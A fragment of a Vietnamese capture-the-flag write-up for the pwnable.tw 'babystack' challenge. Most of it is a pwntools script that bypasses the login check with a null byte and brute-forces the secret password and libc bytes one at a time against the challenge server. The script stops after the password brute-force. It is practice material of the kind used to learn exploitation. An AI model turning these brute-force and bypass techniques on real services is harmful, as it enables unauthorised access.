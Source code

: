 ```
mất khá lâu để brute_force hết ề này
![image](/assets/images/Pwnable.tw/42.png)


```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./babystack_patched")
libc = ELF("./libc_64.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe


#p = process()
p = remote('chall.pwnable.tw', 10205)

#gdb.attach(p,gdbscript='''
#           brva 0x0000000000000E1E
 #          brva 0x0000000000000EBB
#           ''')
# login success
input()

def log_in():
    p.sendlineafter(b'>> ',b'1')
    p.sendafter(b'passowrd :',b'\x00')
def log_out():
    p.sendlineafter(b'>> ',b'1')

def bf():
    random_value = b''
    for i in range(16):
        p.sendlineafter(b'>>',b'1') #log out
        for j in range(1,256):
            p.sendlineafter(b'>>',b'1')
            random_value += p8(j)
            p.sendafter(b'Your passowrd :',random_value + b'\x00')
            if b'Login Success' in p.recvline():
                break
            else:
                random_value = random_value[:-1]
    return random_value
def bf_libc():
    libc_value = b''
    for i in range(14):
        p.sendlineafter(b'>>',b'1') #log out
        for j in range(1,256):
            p.sendlineafter(b'>>',b'1')
            libc_value += p8(j)
            p.sendafter(b'Your passowrd :',libc_value + b'\x00')
            if b'Login Success' in p.recvline():
                break
            else:
                libc_value = libc_value[:-1]
    return libc_value
log_in()
passowrd = bf()
print(passowrd.hex())

log_out()
```